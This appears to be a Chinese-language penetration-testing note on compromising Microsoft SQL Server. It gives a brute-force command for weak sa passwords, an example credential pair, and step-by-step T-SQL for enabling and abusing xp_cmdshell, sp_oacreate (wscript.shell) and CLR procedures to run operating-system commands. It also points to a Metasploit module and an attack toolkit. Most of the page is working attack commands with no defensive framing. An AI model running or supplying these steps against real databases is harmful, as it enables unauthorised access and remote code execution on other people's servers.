

---
tags:
  - database
create_time: 2024-10-17 15:13
modified_time: 2024-10-17 15:13
status: complete
---
## 0x01 sqlserver口令爆破

Sqlserver 弱口令爆破

```bash
fscan -h 10.1.2.3 -m mssql
```

## 0x02 sqlserver链接

Mssql sa: 123456@10.1.2.3

## 0x03 xp_cmdshell

> ​	“存储过程”：其实质就是一个“集合”，那么是什么样的结合呢，就是存储在SQL server中预先定义好的“SQL语句集合”，说的更直白一些就是使用T-SQL语言编写好的各种小脚本共同组成的集合体，我们称之为“存储过程”。
>
> ​	而存储过程中的这些小脚本中，其危险性最高的“小脚本”就是扩展存储过程中的“xp_cmdshell脚本”，它可以执行操作系统的任何指令。

1. 检查xp_cmdshell是否开启 `SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';`


2. 开启xp_cmdshell

   ```mssql
   EXEC sp_configure 'show advanced options', 1;
   RECONFIGURE;
   EXEC sp_configure 'xp_cmdshell', 1;
   RECONFIGURE;
   ```


3. 命令执行
   `master..xp_cmdshell 'whoami';`




- Msf模块 auxiliary/admin/mssql/mssql_exec


## 0x04 sp_oacreate

1. 检查sp_oacreate是否开启 `SELECT * FROM sys.configurations WHERE name = 'ole automation procedures';`


2. 开启sp_oacreate

   ```mssql
   EXEC sp_configure 'show advanced options', 1;
   RECONFIGURE;
   EXEC sp_configure 'ole automation procedures', 1;
   RECONFIGURE;
   ```


3. 执行命令

   ```mssql
   declare @shell int
   exec sp_oacreate 'wscript.shell',@shell output
   exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >C:\\1.txt'
   ```

## 0x05 CLR

1. 检查CLR是否开启 `SELECT * FROM sys.configurations WHERE name = 'clr enabled'`


2. 创建CLR程序集


3. 创建存储过程

   ```mssql
   CREATE PROCEDURE [dbo].[SqlStoredProcedure1] AS EXTERNAL NAME [Database3].[StoredProcedures].[SqlStoredProcedure1]
   ```


4. 调用存储过程执行命令 `EXEC [dbo].[SqlStoredProcedure1];`


## 0x06 综合工具SharpSQLTools

- https://github.com/uknowsec/SharpSQLTools


